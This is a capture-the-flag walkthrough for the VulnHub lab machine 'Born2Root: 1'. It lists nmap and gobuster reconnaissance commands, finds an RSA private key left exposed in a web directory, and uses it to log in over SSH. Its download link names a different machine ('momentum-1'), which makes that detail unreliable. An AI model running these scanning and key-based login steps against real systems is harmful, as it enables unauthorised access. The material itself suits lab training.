






# Born2Root: 1

## Machine Information

- **Machine:** Born2Root: 1
- **Platform:** VulnHub
- **Download:** https://www.vulnhub.com/entry/momentum-1,685/

---

# Network Scanning

## Find Target IP

Run the following command to identify the target machine on the network.

```bash
nmap -sn 192.168.2.0/24
```


---

## Full Nmap Scan

Perform a full TCP port scan with service detection, default scripts, OS detection, and version enumeration.

```bash
nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.123
```



---

## Scan All TCP Ports (Optional)

```bash
nmap -v -p- 192.168.2.123
```

---

## Aggressive Scan

```bash
nmap -sC -sV -A 192.168.2.123
```

This command performs:

- Service detection
- Version detection
- Default NSE scripts
- OS detection

---

## HTTP Enumeration

Run the HTTP enumeration script.

```bash
nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.123
```


---

# Web Enumeration

Visit the target in your browser.

```
http://192.168.2.123
```



---

## Identified Users

The web page reveals the following usernames.

```
Martin N
Hadi M
Jimmy S
```

---

## Directory Bruteforce

Run Gobuster to discover hidden files and directories.

```bash
gobuster dir \
-u http://192.168.2.123 \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-x php,txt,html,bak,zip \
-t 50
```



---

## Interesting Endpoints

```
http://192.168.2.123/robots.txt
http://192.168.2.123/files/
http://192.168.2.123/wordpress-blog/
http://192.168.2.123/icons/
```

---

## Information Disclosure

Browse to:

```
http://192.168.2.123/icons/
```

A text file named **VDSoyuAXiO.txt** is discovered.



Open the file:

```
http://192.168.2.123/icons/VDSoyuAXiO.txt
```

The file contains an **RSA Private Key**.



---

# Initial Access

## Save the RSA Key

Create a new file.

```bash
nano id_rsa
```

Paste the RSA private key into the file.

---

## Change File Permission

```bash
chmod 600 id_rsa
```


---

## Login via SSH

```bash
ssh -i id_rsa \
-o PubkeyAcceptedAlgorithms=+ssh-rsa \
-o HostKeyAlgorithms=+ssh-rsa \
martin@192.168.2.123
```



---

# Summary

## Attack Flow

1. Host Discovery
2. Port Scanning
3. Web Enumeration
4. Directory Bruteforce
5. Information Disclosure
6. Extract RSA Key
7. SSH Login